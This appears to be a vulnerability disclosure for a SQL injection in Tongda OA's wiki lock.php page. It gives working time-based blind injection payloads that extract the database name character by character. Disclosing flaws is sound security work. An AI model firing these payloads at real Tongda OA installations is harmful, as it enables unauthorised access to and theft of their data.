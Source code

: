 Tongda OA has a front-end SQL injection vulnerability

version:v11.10 and below versions and v2017 version

Route: general/wiki/cp/manage/lock.php

There is an injected parameter: $TERM_ID_STR

The code here is very simple. When $TYPE==LOCK or UNLOCK, the parameter $TERM_ID_STR is directly connected to the SQL statement to cause SQL injection.
![image](https://github.com/TinkAnet/cve/assets/118334129/ccb82304-9491-4109-b25a-e67ef2d0c782)


2.Payload
We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.
POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)
```
![image](https://github.com/TinkAnet/cve/assets/118334129/3d63ff4e-e1e8-42dc-a2e4-cb9281ec66ff)

Intercept the second digit of the database through blind injection, and determine the second digit as the letter d through the delay time

```1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1```

![image](https://github.com/TinkAnet/cve/assets/118334129/d6d8ab14-ca96-4250-b285-347289be9295)

The third digit is the character _
```1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1```

![image](https://github.com/TinkAnet/cve/assets/118334129/e217d24a-ff2a-4720-80b6-75a9f8107ffb)

The fourth digit is the character o

```1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1```
![image](https://github.com/TinkAnet/cve/assets/118334129/b84f40ae-8d23-4fce-8778-404924076544)

The fifth digit is the character a

```1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1```
![image](https://github.com/TinkAnet/cve/assets/118334129/499745c3-077a-4709-86ea-7b8c9e8968f5)

